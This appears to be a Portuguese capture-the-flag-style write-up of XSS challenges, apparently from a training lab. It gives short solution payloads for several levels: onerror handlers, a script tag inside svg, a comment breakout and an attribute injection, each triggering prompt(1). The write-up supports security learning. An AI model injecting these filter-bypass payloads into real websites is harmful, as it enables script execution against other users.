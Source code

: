 - Esse trecho não aparece como texto na página, ele é interpretado como um **bloco de código JavaScript real** que roda no navegador de quem abre a página.
    

[Ir para o desafio 0](https://www.google.com/search?q=%23desafio-0)

### 🔹 1º desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_1✅.png'></center>

```
<img src="x" onerror="prompt(1)"
```

[Ir para o desafio 1](https://www.google.com/search?q=%23desafio-1)

### 🔹 2º desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_2✅.png'></center>

```
<svg><script>prompt&#40;1)</script></b>
```

[Ir para o desafio 2](https://www.google.com/search?q=%23desafio-2)

### 🔹 3º desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_3✅.png'></center>

```
--!> <script>prompt(1)</script>
```

[Ir para o desafio 3](https://www.google.com/search?q=%23desafio-3)

### 🔹 4º desafio

**Resolução pendente.**

[Ir para o desafio 4](https://www.google.com/search?q=%23desafio-4)

### 🔹 5º desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_5✅.png'></center>

```
"type=image src onerror
="prompt(1)
```

[Ir para o desafio 5](https://www.google.com/search?q=%23desafio-5)

### 🔹 6º desafio

<center><img src='/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_6✅.png'></center>
